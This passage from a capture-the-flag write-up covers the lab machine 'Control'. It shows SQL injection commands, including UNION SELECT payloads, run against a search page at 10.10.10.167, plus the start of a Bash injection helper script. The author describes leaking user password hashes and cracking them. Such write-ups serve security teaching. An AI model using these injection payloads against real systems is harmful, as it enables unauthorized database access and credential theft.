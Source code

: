 ```bash
./bin/python3 fidelity_sqli.py
rlwrap ./bin/python3 fidelity_sqli.py
```

<br />
<img src="{{ site.img_path }}/control_writeup/Control_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/control_writeup/Control_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

As the results obtained on the screen are not displayed in the best way, together with the **[hack4u](https://hack4u.io/){:target="_blank"}** community we were able to create a tool for **Bash**, which in addition to better display the results also allows you to perform the injections interactively. In addition, with the help of `rlwrap` we can further improve the interaction with the script. I perform the first injections to leak sensitive information and succeed in accessing the password hashes of the system users (this is my assumption). After sorting the information I try to crack the hashes with an online tool, **[CrackStation](https://crackstation.net/){:target="_blank"}**, and succeed in obtaining two passwords, but for the moment I do **not find them useful** to access the machine.

```bash
nvim fidelity_sqli.sh
chmod +x fidelity_sqli.sh
./fidelity_sqli.sh
./fidelity_sqli.sh -q "'union select 1,2,user(),4,5,6-- -"
./fidelity_sqli.sh -q "'union select 1,2,database(),4,5,6-- -"
./fidelity_sqli.sh -q "'union select 1,2,version(),4,5,6-- -"

nvim fidelity_sqli.sh
```

> **fidelity_sqli.sh**:

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "\n\n${redColour}[!] Exiting...${endColour}\n"
  tput cnorm; exit 1
}

# Ctrl+c
trap ctrl_c INT

# Global Variables
sqli_url="http://10.10.10.167/search_products.php"

# Colours
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
```